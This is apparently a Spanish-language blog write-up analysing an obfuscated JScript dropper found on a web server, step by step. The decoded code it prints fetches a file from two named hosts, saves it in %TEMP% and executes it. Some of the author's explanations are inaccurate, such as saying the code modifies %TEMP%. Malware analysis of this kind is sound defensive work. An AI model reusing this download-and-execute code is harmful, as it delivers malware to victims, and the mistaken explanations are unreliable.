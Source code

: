 ```yaml
---
author: nyaboron
title: Malware alojado en un servidor web
date: 2020-12-21
categories:
    - Análisis de código
tags:
    - Análisis de código
---
```



Han encontrado un malware alojado en un servidor web donde es evidente la ofuscación. Dado que se trata de un incidente grave, se necesita analizar este fragmento y extraer la funcionalidad que posee y los IOC crear reglas eficaces en los sistemas de defensa de la empresa.

> [Descargar la muestra](files/shellcode.7z)


## Desofuscar la muestra

En un primer intento de entender el shellcode busqué símbolos o distintivos de algún lenguaje de programación, al final acabé separando el código “bloques” fijándome en lo que podía ser strings por estar rodeado de comillas dobles y usando los paréntesis y corchetes, el código tabulado queda de la siguiente forma.

![](images/image-001.png)

Después pensé que podía tratarse de algún ensamblador donde con el \x indica los opcodes y los \u registros o nombres de variables ofuscadas de alguna forma, al poco que me puse a probar mi teoría ví que no era viable. Más adelante caí que los caracteres puestos /* *\ debían ser un comentario.

Por tanto busco entre los lenguajes que usan el comentario en bloque /* *\ cuales están relacionados con la palabra reservada «this» junto a unos corchetes, para delimitar el final del código no se está usando un delimitador como el punto y coma de C. Finalmente tampoco llegué a una conclusión en claro. Luego me dí cuenta que lo estaba complicando demasiado, los \u podrían ser caracteres en unicode, decodifico el string contenido en los corchetes de this.

|  e  | \u0076 | \x61 | \u006c |
|:---:|:------:|:----:|:------:|
| ‘e’ |   ‘v’  |  ‘a’ |   ’l’  |

Con la palabra “eval” puedo acotar que es código php o javascript y que además obtengo más información decodificando el resto del shellcode, para no hacerlo a mano uso la herramienta online hex decoder y tras añadir los paréntesis y corchetes queda:

```JS
this["eval"]("new ActiveXObject("WScript.Shell")")["Run"]("CMD /c echo ...",0)
```

Buscando por Google vi que ActiveXObject es una extensión de JS por lo que definitivamente descarto PHP. El objeto ActiveXObject es sólo soportado por Internet Explorer y junto al argumento «WScript.Shell» permite ejecutar código en la línea de comandos de windows.

Ahora queda ver mejor qué comando se va a ejecutar, del código puesto arriba los puntos suspensivos corresponden a este código:

![](images/image-003.jpg)

Falta decodificar la última línea, esta sigue una codificación llamada Uniform Resource Identifier (URI). Para no hacer la conversión a mano uso la herramienta online urldecoder y una vez tabulado obtengo el siguiente código JS:

```JS
(function(){;
tQINHnv= (24219,"%T" "EMP%");
eAtBFv= (30004,"Ex" "ec");
RDPOj= (32030,"ne" "w ActiveXObject(\"ADODB.Stream\")");
piGnjEx= (84954,"op" "en");
GWZam= (57011,"Ex" "pandEnvironmentStrings");
Ktcbl= (80330,"ht" "tp://horcor.com/ese.tf");
zEIJ= (34953,"ty" "pe");
TwSRQ= (3016,"ne" "w ActiveXObject(\"Msxml2.ServerXMLHTTP\")");
ohjQCX= (42836,"ev" "al");
MjrI= (47115,"sa" "veToFile");
BLaOGnI= (25381,"ht" "tp://www.nemcicenadhanou.cz/nvdtime.prs");
HSMGaIEQ= (18246,"se" "nd");
AtZT= (35382,"Wr" "ite");
FFMNzrO= (21478,"re" "sponseBody");
ajtgFv= (72806,"GE" "T");
iLmLQXZ= (91961,"\\" "tmp484430.361");
NuRV= (2861,"ne" "w ActiveXObject(\"WScript.Shell\")");
... // más adelante se muestra y explica el resto del código
})();
```

Para hacerlo legible sustituyo los nombres formados por letras aleatorias por el string correspondiente, el resto del código queda:

```JS
qjlCf= (41901,this["eval"]("new ActiveXObject(\"WScript.Shell\")"));
nwPG= (92838,this["eval"](new ActiveXObject(\"ADODB.Stream\")"));
vPpgA= (92787,this["eval"]("new
ActiveXObject(\"Msxml2.ServerXMLHTTP\")"));
CMqpUgZb= (31987,qjlCf["ExpandEnvironmentStrings"]("%TEMP%")
"\\tmp484430.361");
nwPG["type"]= (88058,1);
nwPG["open"]();
rcZXxqc= (1768,null);
```

Ahora se puede entender que va a hacer uso de nuevo del objetivo ActiveXObject, en el primero para ejecutar código en la cmd, en el segundo con el argumento ADODB Stream para escribir o leer archivos y en el tercero con el argumento Msxml2.ServerXMLHTTP para obtener una respuesta xml. En la cuarta variable hace uso del ActiveXObject para ejecutar una función de la WinApi32 para modificar el valor de la variable de entorno %TEMP%.

A continuación viene un bloque try catch:

```JS
try{
vPpgA["open"]("Get","http://horcor.com/ese.tf",false);
vPpgA["send"]();
rcZXxqc= (69370,vPpgA["responseBody"]);
nwPG["Write"](rcZXxqc);
}catch(eKiNjSK){}
```

En este bloque hace un petición http del tipo get a una web, de la respuesta obtenida extrae el campo reponseBody mediante el ActiveXObject(\»Msxml2.ServerXMLHTTP\») y para acabar el campo obtenido se escribe en un fichero usando ActiveXObject(\»ADODB.Stream\»).
A continuación viene un bloque if, viene a ser lo mismo a lo explicado en el try catch con una
web distinta, solo se ejecuta si el recurso anterior no es accesible.

```JS
if(null==rcZXxqc){
try{
vPpgA["open"]
("Get","http://www.nemcicenadhanou.cz/nvdtime.prs",false);
vPpgA["send"]();
rcZXxqc= (18265,vPpgA["responseBody"]);
nwPG["Write"](rcZXxqc); }catch(lEwiG){} }
```

Para acabar las última líneas son:

```JS
nwPG["saveToFile"](CMqpUgZb,2);
qjlCf["Exec"](CMqpUgZb);
```

En la primera llama a la función saveToFile con la variable que contiene el código para modificar las variables de entorno, posteriormente llamando a Exec ejecutar el archivo guardado.

Resumiendo todo lo visto, se trata de un shellcode que ejecuta código en la cmd usando una función de JS solo disponible en Internet Explorer, después el código ejecutado en la cmd a su vez contiene código JS para modificar la variable de entorno %TEMP% con el valor \\tmp484430.361 y para escribir un fichero con la información obtenida desde la petición get a un dominio.

## Conclusiones

He hecho muy poca programación web asi que me costó encontrarle el truco a esta shellcode, no estoy acostumbrado a usar la consola del inspector de los navegadores lo que hace más fácil la desofuscación del código ya que con ponerla (de forma que el código no funcione…) te realiza la mayor parte de la tradución en la salida de error, asi habría evitado usar una herramienta web que se cómia demasiados caracteres como las llaves.
